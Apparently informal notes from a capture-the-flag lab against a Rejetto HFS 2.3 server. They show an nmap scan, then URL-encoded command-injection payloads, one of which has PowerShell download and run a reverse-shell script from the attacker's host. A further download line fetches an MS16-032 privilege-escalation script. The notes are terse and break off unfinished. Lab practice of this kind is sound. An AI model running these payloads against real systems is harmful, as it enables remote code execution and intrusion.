

$ nmap -sC -sV 10.10.10.8         
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-17 12:38 EST
Nmap scan report for 10.10.10.8
Host is up (0.28s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

default rejetto scipts dont work

`http://10.10.10.8/?search=%00{.+exec|cmd.exe+/c+ping+/n+1+10.10.14.10.}`

http://10.10.10.8/?search=%00{.exec|C%3a\Windows\System32\WindowsPowerShell\v1.0\powershell.exe+IEX(New-Object+Net.WebClient).downloadString('http%3a//10.10.14.19:8000/rev.ps1').}

  

got a connect back

privilege escalations

IEX(New-Object Net.WebClient).downloadstring('http://10.10.14.19:8000/ms16-32.ps1')

but ms 16 32 didnot wokr

need to donwload sherlock first

ms 16 32 not working

